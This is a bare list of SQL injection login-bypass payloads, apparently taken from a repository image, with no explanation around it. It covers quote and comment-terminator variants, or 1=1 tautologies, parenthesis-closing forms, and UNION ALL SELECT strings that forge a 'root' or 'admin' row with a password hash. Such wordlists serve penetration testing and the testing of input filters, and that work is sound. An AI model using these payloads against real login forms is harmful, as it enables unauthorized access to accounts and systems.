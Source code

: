 # SQL Injection

---


root' --

root' #

root'/*

root' or '1'='1

root' or '1'='1'--

root' or '1'='1'#

root' or '1'='1'/*

root'or 1=1 or ''='

root' or 1=1

root' or 1=1--

root' or 1=1#

root' or 1=1/*

root') or ('1'='1

root') or ('1'='1'--

root') or ('1'='1'#

root') or ('1'='1'/*

root') or '1'='1

root') or '1'='1'--

root') or '1'='1'#

root') or '1'='1'/*

or 1=1

or 1=1--

or 1=1#

or 1=1/*

' or 1=1

' or 1=1--

' or 1=1#

' or 1=1/*

" or 1=1

" or 1=1--

" or 1=1#

" or 1=1/*

1234 ' AND 1=0 UNION ALL SELECT 'root', '81dc9bdb52d04dc20036dbd8313ed055

root" --

root" #

root"/*

root" or "1"="1

root" or "1"="1"--

root" or "1"="1"#

root" or "1"="1"/*

root" or 1=1 or ""="

root" or 1=1

root" or 1=1--

root" or 1=1#

root" or 1=1/*

root") or ("1"="1

root") or ("1"="1"--

root") or ("1"="1"#

root") or ("1"="1"/*

root") or "1"="1

root") or "1"="1"--

root") or "1"="1"#

root") or "1"="1"/*

1234 " AND 1=0 UNION ALL SELECT "root", "81dc9bdb52d04dc20036dbd8313ed055

admin' --

admin' #

admin'/*

admin' or '1'='1

admin' or '1'='1'--

admin' or '1'='1'#

admin' or '1'='1'/*

admin'or 1=1 or ''='

admin' or 1=1

admin' or 1=1--

admin' or 1=1#

admin' or 1=1/*

admin') or ('1'='1

admin') or ('1'='1'--

admin') or ('1'='1'#

admin') or ('1'='1'/*

admin') or '1'='1

admin') or '1'='1'--

admin') or '1'='1'#

admin') or '1'='1'/*

1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055

admin" --

admin" #

admin"/*

admin" or "1"="1

admin" or "1"="1"--

admin" or "1"="1"#

admin" or "1"="1"/*

admin"or 1=1 or ""="

admin" or 1=1

admin" or 1=1--

admin" or 1=1#

admin" or 1=1/*

admin") or ("1"="1

admin") or ("1"="1"--

admin") or ("1"="1"#

admin") or ("1"="1"/*

admin") or "1"="1

admin") or "1"="1"--

admin") or "1"="1"#

admin") or "1"="1"/*

1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055

---